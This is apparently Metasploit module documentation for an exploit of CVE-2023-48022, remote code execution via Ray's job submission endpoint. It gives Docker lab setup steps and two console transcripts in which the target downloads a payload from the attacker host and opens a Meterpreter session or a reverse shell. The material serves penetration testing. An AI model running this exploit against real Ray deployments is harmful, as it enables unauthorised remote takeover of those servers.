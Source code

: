 ## Vulnerable Application

Ray (<=v2.6.3) is vulnerable to RCE via the agent job submission endpoint (CVE-2023-48022)

The vulnerability affects:

    * Ray (<=v2.6.3)

This module was successfully tested on:

    * Ray (v2.6.3) installed with Docker on Kali Linux 6.6.15

### Install and run the vulnerable Ray (v2.6.3)

1. Install your favorite virtualization engine (VirtualBox or VMware) on your preferred platform.
2. Install Kali Linux (or other Linux distro) in your virtualization engine.
3. Pull pre-built Ray docker container (v2.6.3) in your VM.
   `docker pull rayproject/ray:2.6.3`
4. Start the ray container.
   `docker run --shm-size=512M -it -p 8265:8265 rayproject/ray:2.6.3`
5. Start ray.
   `ray start --head --dashboard-host=0.0.0.0`

## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/linux/http/ray_agent_job_rce`
4. Do: `set rhost <rhost>`
5. Do: `set lhost <attacker-ip>`
6. Do: `run`
7. You should get a shell or meterpreter

## Options
No options

## Scenarios

### Ray (v2.6.3) installed with Docker on Kali Linux 6.6.15 (target 0)
```
msf > use exploit/linux/http/ray_agent_job_rce
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp
msf exploit(linux/http/ray_agent_job_rce) > set rhost 192.168.56.6
rhost => 192.168.56.6
msf exploit(linux/http/ray_agent_job_rce) > set lhost 192.168.56.1
lhost => 192.168.56.1
msf exploit(linux/http/ray_agent_job_rce) > check
[*] 192.168.56.6:8265 - The service is running, but could not be validated.
msf exploit(linux/http/ray_agent_job_rce) > run

[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated.
[+] Command execution successful. Job ID: 'raysubmit_EJDSK2BrhAP8j69n' Submission ID: 'raysubmit_EJDSK2BrhAP8j69n'
[*] Using URL: http://192.168.56.1:8080/kOZWO5HA3wWm2Hh
[*] Command Stager progress - 100.00% done (120/120 bytes)
[*] Client 192.168.56.6 (Wget/1.20.3 (linux-gnu)) requested /kOZWO5HA3wWm2Hh
[*] Sending payload to 192.168.56.6 (Wget/1.20.3 (linux-gnu))
[*] Sending stage (3045380 bytes) to 192.168.56.6
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.6:42052) at 2024-08-10 10:45:48 +0900
[*] Server stopped.

meterpreter > sysinfo
Computer     : 172.17.0.2
OS           : Ubuntu 20.04 (Linux 6.6.15-amd64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```

### Ray (v2.6.3) installed with Docker on Kali Linux 6.6.15 (target 1)
```
msf > use exploit/linux/http/ray_agent_job_rce
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf exploit(linux/http/ray_agent_job_rce) > set rhost 192.168.56.6
rhost => 192.168.56.6
msf exploit(linux/http/ray_agent_job_rce) > set lhost 192.168.56.1
lhost => 192.168.56.1
msf exploit(linux/http/ray_agent_job_rce) > set target 1
target => 1
msf exploit(linux/http/ray_agent_job_rce) > set payload linux/x86/shell/reverse_tcp
payload => linux/x86/shell/reverse_tcp
msf exploit(linux/http/ray_agent_job_rce) > check
[*] 192.168.56.6:8265 - The service is running, but could not be validated.
msf exploit(linux/http/ray_agent_job_rce) > run

[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated.
[+] Command execution successful. Job ID: 'raysubmit_RNpiJJt2feNrUrwN' Submission ID: 'raysubmit_RNpiJJt2feNrUrwN'
[*] Using URL: http://192.168.56.1:8080/QtpKXmqA8kq
[*] Command Stager progress - 100.00% done (116/116 bytes)
[*] Client 192.168.56.6 (Wget/1.20.3 (linux-gnu)) requested /QtpKXmqA8kq
[*] Sending payload to 192.168.56.6 (Wget/1.20.3 (linux-gnu))
[*] Sending stage (36 bytes) to 192.168.56.6
[*] Command shell session 2 opened (192.168.56.1:4444 -> 192.168.56.6:35136) at 2024-08-10 10:47:37 +0900
[*] Server stopped.

whoami
ray
pwd
/home/ray
```
